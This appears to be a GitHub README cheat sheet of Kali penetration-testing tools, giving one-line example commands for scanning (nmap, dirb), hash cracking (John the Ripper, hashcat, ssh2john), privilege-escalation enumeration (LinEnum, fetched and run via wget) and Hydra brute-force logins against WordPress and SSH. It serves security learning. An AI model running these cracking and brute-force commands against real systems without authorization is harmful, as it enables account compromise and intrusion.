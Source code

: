 # AHackersToolbox
A list of Penetration Testing (Hacking) tools that can be used, as well as some helpful information and examples. For educational purposes only.

**Note**: No download procedures means it comes with kali linux.

![Monty Python](intruder.png) ![Monty Python](intruder.png)


Searchspoit
-----------

```
searchsploit -w wordpress 4.x
```


Nmap
----
Network scanning tool: Use this to identify open ports, running services and other information about the server.

```
nmap -v -A 1.2.3.4
```


DIRB
----
Web scanner. Use this to find file paths, directories, etc; of content on a webapp

```
dirb -w http://1.2.3.4
```


Enum4Linux
----------

```
```


Aircrack-ng
-----------
Brute force WiFi password cracking.

```
```


HashID
------
Use this to assist in determining what type of hash is being dealt with. The output of this can help you determine settings needed in hashcat or johntheripper

```
hashid -m -j hash.txt
```


SSH2John
--------
Strip an ssh2 format private key file of its encryption hash for cracking with JohnTheRipper.

Note: Private key files (ex. id_rsa) can be password protected to help secure them in case they are lost/stolen, ssh2john retrieves the hashed password.

**Download and Run**
```
wget https://raw.githubusercontent.com/magnumripper/JohnTheRipper/bleeding-jumbo/run/ssh2john.py
python ssh2john.py id_rsa > id_rsa.hash
```


JohnTheRipper
-------------
Brute force password cracking of hashed passwords

```
john --wordlist=/path/to/wordlist.txt --format=format hash.txt
```


HashCat
-------
Bruce force password cracking of hashes

List of all hashcat modes: https://hashcat.net/wiki/doku.php?id=hashcat

```
hashcat -m 3200 hash.txt /path/to/wordlist
```


LinEnum
-------
Use this to assist in locating potential methods of privelege escalation on linux.

**Download, make executable, and run**
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh -s -r report -t
```


Hydra
-----
Network brute force login cracker

```
hydra -l Elliot -P fsocity.dic 10.10.103.0 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.103.0%2Fwp-admin%2F&testcookie=1:F=is incorrect'

hydra -l jan -P rockyou.txt ssh://1.2.3.4
```
